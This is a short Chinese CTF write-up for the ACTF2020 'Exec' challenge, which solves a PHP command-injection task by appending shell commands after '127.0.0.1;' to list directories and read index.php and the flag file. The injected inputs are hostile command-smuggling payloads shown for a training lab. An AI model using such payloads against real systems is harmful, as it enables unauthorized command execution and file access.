 # [ACTF2020 新生赛]Exec
TAG:PHP 命令执行  
## 解题过程：
经典命令执行问题
![20201230161727](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230161727.png)  
进行常规测试  
  
```127.0.0.1;ls```
![20201230163819](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230163819.png)  
  
发现可以直接进行命令执行，尝试查看```index.php```内容  
```127.0.0.1;cat index.php```  
![20201230164318](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230164318.png)  
  
查看页面源代码发现```index.php```内容  
![20201230165259](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230165259.png)  
  
没有发现有效信息，尝试进行目录遍历获得flag  
```127.0.0.1;ls ../../../```  
![20201230165631](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230165631.png)  
  
查看flag文件内容  
```127.0.0.1;cat ../../../flag```
获得flag  
![20201230165737](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230165737.png)
## 题目分析
经典的命令执行题目，没什么好分析的，熟悉Linux基础命令即可解答此题目  